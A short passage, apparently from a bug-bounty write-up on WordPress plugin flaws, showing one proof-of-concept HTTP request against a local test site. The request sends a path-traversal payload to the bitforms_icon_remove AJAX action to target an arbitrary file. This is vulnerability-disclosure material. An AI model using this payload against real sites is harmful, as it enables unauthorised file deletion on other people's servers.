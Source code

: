 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822165256.png)

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icon_remove&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"file":"../../../../../../../../../../../var/www/html/test.txt"}
```
